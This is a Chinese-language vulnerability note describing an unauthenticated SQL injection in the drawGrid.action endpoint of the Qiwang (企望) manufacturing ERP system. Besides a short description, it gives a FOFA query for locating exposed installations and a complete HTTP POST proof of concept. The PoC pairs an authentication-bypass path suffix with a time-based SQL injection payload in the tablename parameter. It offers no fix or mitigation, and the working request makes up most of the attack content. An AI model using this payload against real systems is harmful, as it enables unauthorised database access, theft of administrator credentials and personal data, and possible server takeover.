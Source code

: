 # 企望制造ERP系统drawGrid.action存在SQL漏洞

企望制造ERP系统 drawGrid.action 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="企望制造ERP系统"
```

## poc

```javascript
POST /mainFunctions/drawGrid.action;cookieLogin.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close

tablename=1';WAITFOR DELAY '0:0:5'--
```

![image-20241114140739587](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141407656.png)
